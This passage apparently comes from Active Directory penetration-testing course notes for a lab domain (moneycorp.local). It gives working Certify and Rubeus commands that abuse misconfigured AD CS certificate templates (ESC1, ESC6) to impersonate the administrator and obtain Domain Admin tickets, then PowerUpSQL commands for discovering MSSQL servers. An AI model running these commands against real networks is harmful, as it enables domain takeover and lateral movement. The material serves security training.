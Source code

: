 Convert from cert.pem to pfx (esc6.pfx below) and use it to request a TGT for DA (or EA):
```powershell
Rubeus.exe asktgt /user:administrator /certificate:esc6.pfx /password:SecretPass@123 /ptt
```

### AD CS - ESC1
	
The template **HTTPSCertificates** has **ENROLLEE_SUPPLIES_SUBJECT** value for **msPKI-Certificates-Name-Flag**:
```powershell
Certify.exe find /enrolleeSuppliesSubject
```

The template **HTTPSCertificates** allows enrollment to the RDPUsers group. Request a certificate for DA (or EA) as studentx:
```powershell
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"HTTPSCertificates" /altname:administrator
```

Convert from cert.pem to pfx (esc1.pfx below) and use it to request a TGT for DA (or EA):
```powershell
Rubeus.exe asktgt /user:administrator /certificate:esc1.pfx /password:SecretPass@123 /ptt
```

Learning Objective 21

- Check if AD CS is used by the target forest and find any vulnerable/abusable templates.
- Abuse any such template(s) to escalate to Domain Admin and Enterprise Admin.



# Trust Abuse - MSSQL Servers
MS SQL servers are generally deployed in plenty in a Windows domain.

- SQL Servers provide very good options for lateral movement as domain users can be mapped to database roles.
- For MSSQL and PowerShell hackery, lets use PowerUpSQL

[PowerUpSQL on GitHub](https://github.com/NetSPI/PowerUpSQL)



Discovery (SPN Scanning):
```powershell
Get-SQLInstanceDomain
```

Check Accessibility:
```powershell
Get-SQLConnectionTestThreaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```

Gather Information:
```powershell
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```
